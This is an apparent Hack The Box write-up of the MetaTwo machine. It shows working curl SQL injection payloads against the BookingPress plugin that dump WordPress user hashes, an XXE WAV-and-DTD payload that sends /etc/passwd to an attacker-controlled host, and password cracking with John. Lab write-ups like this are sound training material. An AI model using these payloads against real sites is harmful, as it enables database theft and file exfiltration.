








# MetaTwo Writeup - by Thammanant Thamtaranon  
- MetaTwo is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.186`  
  
- The scan showed multiple open ports:  
  - 21 (FTP)  
  - 22 (SSH)  
  - 80 (HTTP)  
  - 25764 (Unknown)  
  - 52677 (Unknown)  
- We then added `metapress.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- I tried connecting to FTP, but it did not allow anonymous login.
- We attempted directory brute-forcing using `dirsearch`, but it timed out, similar to `gobuster`.  
- Using Burp Suite to inspect requests, we discovered a plugin `bookingpress` version 1.0.10.  


## Exploitation  
- We researched BookingPress 1.0.10 and found **CVE-2022-0739**, an Unauthenticated SQL Injection vulnerability.  
- Following the PoC, we first identified the `_wpnonce` value.  
  
- We then executed a crafted request to extract database version information and confirmed SQL Injection worked.
```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<_wpnonce_value>&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```
  
- Next, we extracted user credentials from the database, finding users `admin` and `manager`.
```bash
curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<_wpnonce_value>&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,1,2,3,4,5,6 from wp_users-- -'
```
  
- We saved the hashes and cracked them using John the Ripper.  
  
- Using the cracked credentials, we logged in as `manager` in WordPress.  
- The WordPress version was 5.6.2. Research revealed **CVE-2021-29447**, an XXE vulnerability when uploading WAV audio files with crafted metadata.  
- We created a malicious `payload.wav` and corresponding DTD file to exfiltrate `/etc/passwd`.
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.16.11:8000/xx3.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```
```bash
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<attacker_ip>:8000/?leak=%file;'>">
``` 
  
- Decoding the returned data confirmed the user `jnelson`.
```bash
echo '<BASE64_DATA>' | base64 --decode | php -r 'echo zlib_decode(file_get_contents("php://stdin"));'
```
  
- Attempting SSH initially failed, so we inspected the WordPress configuration and found the FTP credentials.  
  
  
- Using the credentials, we connected via FTP.  
  
- We also discovered hardcoded credentials in `send_email.php`.  
  
- Using these, we SSH’ed into the machine as `jnelson` and obtained the user flag.  


## Privilege Escalation  
- Listing files revealed a hidden directory `.passpie`.  
- Inside `/.passpie/ssh`, we found `root.pass`, which required a passphrase.  
- We downloaded `.keys` to our machine, extracted the private key block into `private.key`, and ran `gpg2john private.key > pgp.hash`, followed by `john --wordlist=/usr/share/wordlists/rockyou.txt pgp.hash`.  
  
- On the target machine, we executed `passpie export ../passwords.txt` to extract credentials.  
- Finally, using `su root` with the retrieved password, we gained a root shell and captured the root flag.  

